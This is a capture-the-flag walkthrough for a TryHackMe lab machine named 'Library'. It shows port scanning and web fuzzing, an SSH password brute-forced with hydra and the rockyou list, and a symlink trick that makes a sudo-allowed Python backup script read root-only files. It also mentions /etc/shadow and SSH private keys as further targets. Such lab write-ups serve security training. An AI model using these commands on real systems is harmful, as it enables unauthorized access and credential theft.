




## TL;DR

In this challenge we first brute force `meliodas` ssh password using hint found inside `robots.txt`, and the get arbitrary file read as root using `backup` we can execute as root.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                            
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)                                       
| ssh-hostkey:                                                                                                                         
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)                                                                         
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7I
CUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rC
AU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl                       
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
|   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `library.thm` to my `/etc/hosts`.

### Brute force meliodas password

I visited the main page, we can see the username `meliodas`



I fuzzed the website to find endpoints, and found `robots.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/Library]                                                                                                      
└─$ ffuf -u 'http://library.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403 
                                                                                                                                       
        /'___\  /'___\           /'___\                                                                                                
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                               
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                
          \/_/    \/_/   \/___/    \/_/                                                                                                
                                                                                                                                       
       v2.1.0-dev                                                                                                                      
________________________________________________
                                                                                                                                       
 :: Method           : GET                                                                                                             
 :: URL              : http://library.thm/FUZZ                                                                                         
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt                                                      
 :: Follow redirects : false
 :: Calibration      : false                                                                                                           
 :: Timeout          : 10                                                                                                              
 :: Threads          : 40                                                                                                              
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500                                                            
 :: Filter           : Response status: 403
________________________________________________                                                                                       
                                                                                                                                       
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 143ms]
index.html              [Status: 200, Size: 5439, Words: 561, Lines: 93, Duration: 144ms]  
robots.txt              [Status: 200, Size: 33, Words: 4, Lines: 2, Duration: 142ms]
```

Let's curl this file:
```bash
┌──(agonen㉿kali)-[~/thm/Library]
└─$ curl http://library.thm/robots.txt
User-agent: rockyou 
Disallow: / 
```

Okay, the user-agent is some hint, `rockyou`. I want to try brute forcing the ssh password of `meliodas`, after I didn't find any other path:
```bash
┌──(agonen㉿kali)-[~/thm/Library]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://library.thm/
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-26 16:37:45
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://library.thm:22/
[22][ssh] host: library.thm   login: meliodas   password: iloveyou1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-26 16:38:33
```

Alright, we have the credentials:
```bash
meliodas:iloveyou1
```



and the user flag is:
```bash
meliodas@ubuntu:~$ cat user.txt 
6d488cbb3f111d135722c33cb635f4ec
```

### Arbitrary file read using backup as root

I checked for sudo permissions, we can execute some python script"
```bash
meliodas@ubuntu:/var/www/html/Blog$ sudo -l                                                                                            
Matching Defaults entries for meliodas on ubuntu:                                                                                      
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                  
                                                                                                                                       
User meliodas may run the following commands on ubuntu:                                                                                
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

This is the script:
```py
meliodas@ubuntu:/var/www/html/Blog$ cat /home/meliodas/bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Okay, what if we'll put something inside `/var/www/html` that we can't read, and then back it up. We'll be able to read it later. The way we'll do that is using link, soft link.



So, first create the soft link at `/var/www/html/Blog`, and then execute the backup:
```bash
meliodas@ubuntu:/var/www/html/Blog$ ln -sf /root/root.txt flag.txt
meliodas@ubuntu:/var/www/html/Blog$ sudo /usr/bin/python3 /home/meliodas/bak.py
```

Now, we can unzip it at the location `/tmp/bla`
```bash
unzip /var/backups/website.zip -d /tmp/bla
```

and read the root flag:
```bash
meliodas@ubuntu:/var/www/html/Blog$ cat /tmp/bla/var/www/html/Blog/flag.txt
e8c8c6c256c35515d1d344ee0488c617
```

We could have done the same with the file `/etc/shadow` and crack the hash, or try leaking the private ssh key.

